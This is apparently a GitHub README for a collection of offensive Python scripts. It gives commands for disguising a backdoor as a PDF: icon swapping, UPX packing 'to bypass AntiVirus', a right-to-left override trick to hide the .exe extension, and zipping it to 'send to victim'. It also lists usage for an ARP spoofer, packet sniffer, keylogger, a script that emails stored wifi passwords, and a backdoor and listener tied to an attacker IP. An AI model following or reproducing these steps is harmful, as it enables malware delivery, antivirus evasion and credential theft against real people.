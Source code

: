# Python Scripts
A Collection of Python Scripts.

## Packaging

### Common
- Search pdf in [IconFinder](https://www.iconfinder.com/) to create an icon (size:128px & 512*\512) with PNG format
- Use [Convertor](https://www.zamzar.com/convert/png-to-ico/) to convert PNG to ICO (512\*512) & change the name to pdf.ico
- To bypass AntiVirus, use [UPX](https://github.com/upx/upx) to compress exe file: ```./upx /root/PycharmProjects/backdoor/dist/backdoor.exe -o compressed_bacdoor.exe```
- To change the fiel extension, search 'right to left' in 'Characters' tool from kali, Choose 'Right-to-Left override', select 'Copy Character', pasete in place of the star in 'human-refl\*fdp.exe' in the name of the file
- Zip the pdf file (to hide the exe extension) and send to victim

### Windows
- Install pyinstaller for python: ```python.exe -m pip install pyinstaller```
- Convert to exe: ```pyinstaller.exe backdoor.py --onefile --noconsole --add-data "/root/Downloads/sample.pdf;." --icon /root/Downlaods/pdf.ico```

### Linux
- Install python for Windows inside Linux: ```wine msiexec /i python-2.7.14.msi```
- Install pyinstaller for python: ```wine /root/.wine/drive_c/Python27/python.exe -m pip install pyinstaller```
- Install all imported library: ```wine /root/.wine/drive_c/Python27/python.exe -m pip install pynput```
- Convert to exe: ```wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe backdoor.py --onefile --noconsole --add-data "/root/Downloads/sample.pdf;." --icon /root/Downlaods/pdf.ico```

## Usage

### Linux MAC Changer
```python linux_MAC_changer.py --interface eth0 --mac 12:11:11:11:11:11```
- First octet of the new MAC should be even (because of Unicast)

### Network Scanner
```python network_scanner.py --target 172.25.12.34/24```
- Use ```arp``` as a filter to check output in Wireshark

### ARP Spoofer
```python arp_spoofer.py --target 172.25.12.21 --gateway 172.25.12.1```
- Use ```echo 1 > /proc/sys/net/ipv4``` in attacker machine to route victim traffic to gateway

### Packet Sniffer
```python packet_sniffer.py --interface Ethernet```
- Use ```pip install scapy_http```
- Turn off all proxy
- Combine this script with Arp Spoofer

### ARP Spoof Detector
```python arp_spoof_detector.py```

### Wifi Passwords
```python packet_sniffer.py --interface Ethernet```
- Set "Less secure apps" for gmail account
- It will send all wifi credentials on laptop to an email address


### Key Logger
```python key_logger.py```
- Set "Less secure apps" for gmail account

### Listener
```python listener.py```
- Set attacker machine`a IP for my_listener object

### Backdoor
```python backdoor.py```
- Set attacker machine`a IP for my_backdoor object
- Use a sample pdf file to show to user



